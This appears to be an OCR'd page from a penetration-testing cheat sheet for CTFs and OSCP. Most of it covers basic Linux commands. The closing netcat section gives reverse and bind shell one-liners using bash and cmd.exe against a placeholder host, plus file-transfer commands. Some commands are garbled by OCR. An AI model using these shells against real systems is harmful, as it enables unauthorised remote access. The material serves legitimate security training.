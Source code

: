 2.4.1 The Linux Filesystem
Kali Linux adheres to the filesystem hierarchy standard (FHS),35 which provides a familiar and universal layout for all Linux users. The directories you will find most useful are:
• /bin - basic programs (ls, cd, cat, etc.)
• /sbin - system programs (fdisk, mkfs, sysctl, etc)
• /etc - configuration files
• /tmp - temporary files (typically deleted on boot)
• /usr/bin - applications (apt, ncat, nmap, etc.)
• /usr/share - application support and data files





The below commands will list all .txt files to identify the flags. Used in several CTFs and useful for the OSCP challenge.
WINDOWS

(for /R ".\" %A in (*.txt) do echo %~fA %~zA) | findstr /v "echo

LINUX 

“ind . -type f -name "*.txt"
====================================

Vim cheat sheet 
https://vim.rtorr.com/
====================================

Set the Target IP Address to the $ip system variable
export ip=192.168.1.100
====================================

Find location of file
locate sbd.exe
====================================

Search through dirs in the $PATH environment variable
which sbd
====================================

Find a search for a file that contains a specific string in it’s name:
find / -name sbd\*
====================================

Show active internet connections
netstat -a
====================================

Change Password
passwd
====================================

Verify a service is running and listening
netstat -antp |grep <servicename>
====================================

Start a service
systemctl start ssh

systemctl start apache2

Have a service start at boot
systemctl enable ssh

Stop a service
systemctl stop ssh
====================================

Unzip a gz file
gunzip access.log.gz

Unzip a tar.gz file
tar -xzvf file.tar.gz
====================================

Search command history
history | grep phrase_to_search_for
====================================

Download a webpage
wget http://www.cisco.com
====================================

Open a webpage
curl http://www.cisco.com ( -v)
====================================

String manipulation

    Count number of lines in file
    wc -l index.html

    Get the start or end ohead f a file
    head index.html

    tail index.html

    Extract all the lines that contain a string
    grep "href=" index.html

    Cut a string by a delimiter, filter results then sort
    grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u

    Using Grep and regular expressions and output to a file
    cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt

    Use a bash loop to find the IP address behind each host
    for url in $(cat list.txt); do host $url; done

    Collect all the IP Addresses from a log file and sort by frequency
    cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn
====================================

Decoding using Kali

    Decode Base64 Encoded Values

    echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode

    Decode Hexidecimal Encoded Values
    echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps
====================================

Netcat - Read and write TCP and UDP Packets

    Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems): https://joncraton.org/blog/46/netcat-for-windows/

    Connect to a POP3 mail server
    nc -nv $ip 110

    Listen on TCP/UDP port
    nc -nlvp 4444

    Connect to a netcat port
    nc -nv $ip 4444

    Send a file using netcat
    nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe

    Receive a file using netcat
    nc -nlvp 4444 > incoming.exe

    Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

    whereis nc
    nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

    /bin/nc.traditional -e /bin/bash 1.2.3.4 4444

    Create a reverse shell with Ncat using cmd.exe on Windows
    nc.exe -nlvp 4444 -e cmd.exe

    or

    nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe

    Create a reverse shell with Ncat using bash on Linux
    nc -nv $ip 4444 -e /bin/bash

    Netcat for Banner Grabbing:

    echo "" | nc -nv -w1 <IP Address> <Ports>

Ncat - Netcat for Nmap project which provides more security avoid IDS

    Reverse shell from windows using cmd.exe using ssl
    ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl

    Listen on port 4444 using ssl
    ncat -v $ip 4444 --ssl


